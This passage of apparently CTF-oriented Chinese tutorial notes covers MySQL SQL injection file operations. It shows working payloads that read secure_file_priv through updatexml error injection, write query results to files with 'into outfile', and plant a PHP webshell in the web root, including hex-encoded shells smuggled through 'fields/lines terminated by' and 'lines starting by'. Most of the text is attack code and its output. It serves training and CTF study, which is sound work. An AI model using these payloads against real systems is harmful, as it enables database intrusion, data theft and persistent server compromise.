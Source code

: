 也可以通过报错注入获取@@secure_file_priv的值。

```mysql
mysql> select * from users where id=1 and updatexml(1,concat(0x7e,(select @@secure_file_priv),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~D:\~'
```



**（2）sql注入写文件**

+ 作用1：无回显数据外带

当sql注入无回显时，除了dnslog外带数据，还可以利用`union select ... into outfile`将信息写入到服务器的文件，再查看此文件。

```mysql
?id=1 union select 1,2,version() into outfile '/var/www/html/mysql_version.txt'
```



+ 作用2：写webshell

```mysql
?id=1 union select 1,2,'<?php phpinfo();?>' into outfile '/var/www/html/shell.php'
```



+ 作用3：写定时任务





**（3）starting/terminated by**

关键函数：`fields terminated by`、`lines terminated by`、`lines starting by `

`fields terminated by [str]`的含义是在select出的每列字段的末尾添加字符串。但需要注意，如果表中没有数据，那么文件中永远不会被写入任何内容；如果表中只有一列，或者只select一列，那么无法将字符串写入到文件中。其中`0x3c3f70687020706870696e666f28293b3f3e`是`<? php phpinfo();?>`的十六进制形式。

```mysql
select * from users where id='1' INTO OUTFILE 'D:\\shell.php' fields terminated by 0x3c3f70687020706870696e666f28293b3f3e
```

当users表中总共有3列字段，那么在写入的文件中内容如下。

```
1<?php phpinfo();?>admin<?php phpinfo();?>ctfshow{123}
```

`lines terminated by`是在每行记录的末尾添加字符串。

```mysql
select * from users where id='1' INTO OUTFILE 'D:\\shell.php' LINES TERMINATED by  0x3c3f70687020706870696e666f28293b3f3e
```

`lines starting by `

```mysql
select * from users where id='1' INTO OUTFILE 'D:\\shell.php' LINES STARTING by 0x3c3f70687020706870696e666f28293b3f3e
```
